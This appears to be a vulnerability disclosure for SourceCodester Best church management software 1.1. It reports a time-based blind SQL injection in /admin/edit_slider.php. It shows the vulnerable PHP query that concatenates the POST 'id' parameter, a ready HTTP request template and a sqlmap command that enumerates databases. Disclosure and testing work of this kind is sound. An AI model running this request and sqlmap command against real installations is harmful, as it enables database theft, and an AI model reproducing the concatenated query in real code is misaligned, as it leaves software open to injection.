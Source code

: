 # Code Source
https://www.sourcecodester.com/php/17856/best-church-management-software-free-download-full-version.html
# Description
A vulnerability has been found in SourceCodester Best church management software 1.1 and classified as critical. SourceCodester Best church management software 1.1 has a SQL Injection vulnerability in `/admin/edit_slider.php`. Affected is file `/admin/edit_slider.php`,The manipulation of the argument `id` leads to SQL inject. Remote attackers can leverage time-based blind SQL injection to extract data from the database.

# Request
```
POST /admin/edit_slider.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

id=*
```

# Affect code(`/admin/edit_slider.php`)
```
......
<?php
$stmt = $conn->prepare("SELECT * FROM `slider` WHERE id='" . $_POST['id'] . "' ");
$stmt->execute();
$record = $stmt->fetchAll();
......
```

# Exploit
```
python sqlmap.py -r .\1.txt --dbs
```

![图片](https://github.com/user-attachments/assets/96b337db-351e-4bda-a548-a5d2f4cbe202)

![图片](https://github.com/user-attachments/assets/9c235ba5-22d7-45b4-b72c-89cff9b29fd7)
